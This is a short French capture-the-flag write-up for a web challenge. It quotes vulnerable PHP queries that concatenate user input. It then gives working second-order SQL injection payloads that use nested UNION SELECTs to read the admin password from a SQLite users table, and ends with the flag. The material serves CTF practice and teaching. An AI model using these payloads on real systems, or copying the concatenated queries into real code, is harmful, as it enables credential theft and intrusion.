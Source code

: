 # Web 150 - La route est longue

On a une nouvelle injection SQL avec le code source de l’épreuve, celui-ci contient 2 requêtes SQL.
```php
$q = "select id from users where login = '". $login ."'";  Où $login est un champ utilisateur.
 
$q = "select email from admin_list where id_user = $id"; Où $id est le résultat de la requete précédente.```

Ici nous sommes en présence d’une base de données SQLITE il nous est donc assez difficile de faire une
injection basée sur le temps (bien que ce soit possible en soumettant une requête qui réalise plusieurs
calculs). 

L’idée ici est d’injecter dans le champ login pour injecter la seconde requête.
```sql
‘union all select “-1 union all select ‘toto’” -- a-
```

La page nous retourne toto qui correspond à l’email récupérée dans la 2ème requête SQL. On récupère
le mot de passe du premier utilisateur dans la table users:

```sql
union all select "0 union all select password from users limit 0,1"-- a-
```


Le flag est le mot de passe de l’administrateur : **ese{time_Or_Routed?}**